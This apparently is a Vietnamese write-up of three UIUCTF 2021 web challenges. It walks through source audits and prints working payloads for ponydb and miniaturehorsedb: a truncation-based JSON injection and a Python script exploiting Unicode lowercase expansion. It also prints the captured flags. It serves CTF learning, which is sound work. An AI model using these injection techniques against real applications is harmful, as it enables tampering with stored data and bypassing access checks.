






# ================= UIUCTF 2021 =================

### wasmbaby - 50pts  
  
Challenge khá đơn giản vì là warmup, chỉ cần `Ctrl + Shift + I` để ` inspect element` vào phần `Source` để xem source của trang, trong đó có file `index.wasm` và flag nằm ở dưới cùng của file đó.  
  
  
  
Flag: `uiuctf{welcome_to_wasm_e3c3bdd1}`  
  
### ponydb - 112pts  
  
[Source code](https://uiuc.tf/files/727b10ed82902f914153fd781e8711dd/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjQ4fQ.YQe3Ng.TjZr4KWts3_vs_a2z9WNw7zmqcc)  
   
File `templates/ponies.html` có nội dung như sau   
```html
<!-- ponies.html -->
...
<body>
		<p>Error: {{ get_flashed_messages()[0] }}</p>
		<h1>Ponies</h1>
		
		<h2>{{ pony["name"] }}</h2>
		
		
		<p>Favorite {{ favorite }}: {{ pony['favorites'][favorite] }}</p>
		
		<p>Favorite flag: {{ flag }}</p>
		
		
		<p>{{ pony["bio"] }}</p>
		
		<h1>Add a pony!</h1>
...
```  
ta dễ dàng thấy để có được `flag` thì phải pass được điều kiện ` if favorite == 'number' and pony['favorites'][favorite] == 1337`, lúc này phải phụ thuộc vào `favorites` cho nên tới đây ta audit tiếp xem `favorites` là cái chi???  
  
Từ `ponydb.py` ta thấy dòng code:  
```python3  
...  
cur.execute(f"SELECT * FROM `ponies` WHERE session='{session['id']}'")  
for (name, bio, image, data, _) in cur:
		ponies.append({"name": name, "bio": bio, "image": image, "favorites": json.loads(data)})
...
```  
thì ta nhận ra là `favorites` là một object được load từ chuỗi json nào đó được lấy ra từ database. Nhưng để dễ hiểu hơn thì mình tiến hành debug ở local từ source mà tác giả đã cung cấp.  
  
  
Cột `favorites` là một chuỗi json được tạo ra do lấy từ input của user khi post lên server.  
Và một điều bất thường trong source code `ponydb.py` ở enpoint `/pony` sau khi audit là:  
  
```python3  
...
@app.route('/pony', methods=['POST'])
def add():
	error = None

	name = request.form['name']
	if "'" in name: error = 'Name may not contain single quote'
	if len(name) > 64: error = 'Name too long'

	bio = request.form['bio']
	if "'" in bio: error = 'Bio may not contain single quote'
	if len(bio) > 256: error = 'Bio too long'

	image = request.form['image']
	if "'" in image: error = 'Image URL may not contain single quote'
	if len(image) > 256: error = 'Image URL too long'

	favorite_key = request.form['favorite_key']
	if "'" in favorite_key: error = 'Custom favorite name may not contain single quote'
	if len(favorite_key) > 64: 'Custom favorite name too long'      # Chổ này chỉ check mà không gán error

	favorite_value = request.form['favorite_value']
	if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
	if len(favorite_value) > 64: 'Custom favorite too long'     # Chổ này cũng chỉ check cho vui :))))

	word = request.form['word']
	if "'" in word: error = 'Word may not contain single quote'
	if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'

	number = int(request.form['number'])
	if number >= 100: error = "Ponies can't count that high"
	if number < 0: error = "Ponies can't count that low"

	if error: flash(error)
...
```
Không như các param `word, name, bio, image`, 2 param `favorite_key và favorite_value` check length của input chỉ để cho vui mà không gán giá trị lại cho biến `error` khi không thoã điều kiện :))).  
  
Và một điều khá quan trọng nữa ở chổ  
```python3  
config = {
	'host': 'localhost',
	'user': 'root',
	'password': 'REDACTED',
	'database': 'ponydb',
	'sql_mode': 'NO_BACKSLASH_ESCAPES'
}
```
tác giả đã cố tình `override sql_mode` thành `NO_BACKSLASH_ESCAPES` để disable `STRICT_TRANS_TABLES` theo mặc định, nghĩa là khi `chuỗi dữ liệu quá dài` so với `độ dài mặc định ` đã được định nghĩa cho column của table nào đó thay vì trả ra error thì nó sẽ bị `truncate` đi.  
  
Ngoài ra, ta còn biết được cấu trúc của bảng  
```python3
...
try: cursor.execute('CREATE TABLE `ponies` (`name` varchar(64), `bio` varchar(256), '
                    '`image` varchar(256), `favorites` varchar(256), `session` varchar(64))')
...                  
```              
Độ dài chuỗi của cột `favorites` là `256`, chain các điều kiện ở trên lại thì ta có ý tưởng để giải bài này là input một chuỗi ở param `favorite_value` (hoặc có thể dùng param `favorite_key`) có độ dài vượt quá 256 để bị truncate, đồng thời vì ký tự `"` không bị filter, nên ta có thể chèn lại giá trị cho `number` thành `1337` để lấy flag.  
  
Payload:
```txt
name=nhienit&image=imaget&favorite_key=color&favorite_value=redaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaa","number":1337}&word=antidisestablishmentarianis&number=11&bio=123
```  
  
  
Và flag hiện ra XD  
  
    
  
Flag: `uiuctf{My_l33tle_p0ny_5fb234}`  
  
## miniaturehorsedb - 417pts  
  
[Source code](https://uiuc.tf/files/684fe65529f3dafedc7f81d6283c91d4/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjU1fQ.YQfBeQ.0TybIzxbLPPcDsWg39rfflTchqM)    
  
Thật ra source code bài này cũng không khác gì mấy so với bài `ponydb` chỉ là chổ check length đã được fix :)))  
```python3  
...
favorite_value = request.form['favorite_value']
if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
if len(favorite_value) > 64: error = 'Custom favorite too long'		# Biến error đã được gán

word = request.form['word']
if "'" in word: error = 'Word may not contain single quote'
if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'	# Biến error đã được gán
...
```  
  
Dạo quanh discord thì nhận được hint của tác giả:  
```python3
>>> len(chr(304).lower())
2
```

Ok tới đây là hiểu rồi, với ký tự có ascii là `304` thì sau khi `lower()` sẽ thành 2 ký tự do đó nên có chiều dài là 2. Nhìn vào source code thì ta thấy có 2 chổ sử dụng hàm `lower()` này là `favorite_key.lower()` và `word.lower()`. Nếu ta sử dụng 64 ký tự `chr(304)` (chỉ cho phép là 64 ký tự) thì ta sẽ có 128 ký tự được tạo ra sau khi đi qua hàm `lower()`, cộng thêm với 64 ký tự `favorite_value` nữa là chỉ 192 ký tự => vẫn chưa đủ để bị `truncate`. Vì thế, ta phải tận dụng thêm 28 ký tự của param `word` nữa, tất cả là do:  
  
```python3
if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'
```  
Với `len('antidisestablishmentarianism') = 28`, nên tổng sẽ được sẽ được 248, cộng thêm các ký tự như `{`, `}`, `"`, `:` theo syntax của json thì sẽ hơn 256 ký tự.  
  
Sau một lúc debug và tính toán thì được cái script để send payload:  
  
```python3
import requests

url = 'http://miniaturehorsedb.chal.uiuc.tf/pony'
r = requests.Session()

data = {
    'name' : 'name',
    'image': 'image',
    'favorite_key' : chr(304) * 64,
    'favorite_value': '","number":1337,"a":"' + chr(304) * (64 - len('","number":1337,"a":"')),
    'word' : chr(304) * 22 + 'aaa"}',
    'number': 11,
    'bio' : 'bio'
}

cookies = {
        'session': '.eJwNytENwCAIBcBdmABR5NltikDiDE13b-_7HjpBF2GlYG_k4lZARUoXQEU9PaKP0h1sqc0n6_A_Vjfca4jVFND7Ae5QFAc.YQfrhQ.UMwPh5qAN8BS2zIXLte6E-h7Az4'
}

resp = r.post(url, data=data, cookies = cookies) #, proxies = proxy)
```  
Dữ liệu trong database lúc này sẽ có dạng như sau:  
  
  
Refresh và có flag XD  
  
  
  
Flag: `uiuctf{wh0ops_th1s_on3_was_harder_r1ght_9fa2b}`  
  
